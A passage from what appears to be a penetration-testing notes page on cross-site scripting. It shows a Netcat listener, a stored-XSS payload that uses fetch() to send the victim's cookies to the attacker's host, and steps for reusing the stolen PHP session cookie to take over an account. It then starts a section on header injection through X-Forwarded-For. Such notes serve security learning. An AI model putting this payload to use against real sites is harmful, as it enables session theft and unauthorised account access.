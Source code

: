 
* Or we could get it directly to our host machine.  For this,  we set up a listener port with Netcat

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
nc -nlvp $port
```
{% endcode %}

***

* We can try to make a cookie hijacking using the Stored XSS vulnerable part

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We fill the form with the payload
<script>fetch("$IP:$port" + document.cookie);</script>
#This will get the information on the cookie values
```
{% endcode %}

{% hint style="info" %}
The `$IP` and `$port` values are from our machine and the port opened with Netcat
{% endhint %}

***

* Once we have the cookie value we can go to the website page, go to _Inspect>Application>Cookies_ tab, and set the cookie value manually. After that, we can reload the page to update these values on the browser.

```bash
Name               Value                             
...                ...                                
PHPIDSESSID        $hijackedCookie     #We set the cookie obtained   
...                ...
#This will log us into the session we stole without the need for credentials
```

### <mark style="color:orange;">Header Poisoning</mark>

Sometimes headers could be injected with XSS when its content is used directly in some functionalities of the app.

Here we find an example of this scenario:

* An application has a _See Your IP_ functionality which retrieves the information of the user's IP via the `X-Forwarded-For` header.

{% code title="Example Request" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```http
GET http://$url HTTP/1.1
host: host
X-Forwarded-For: $IP
...
```
{% endcode %}
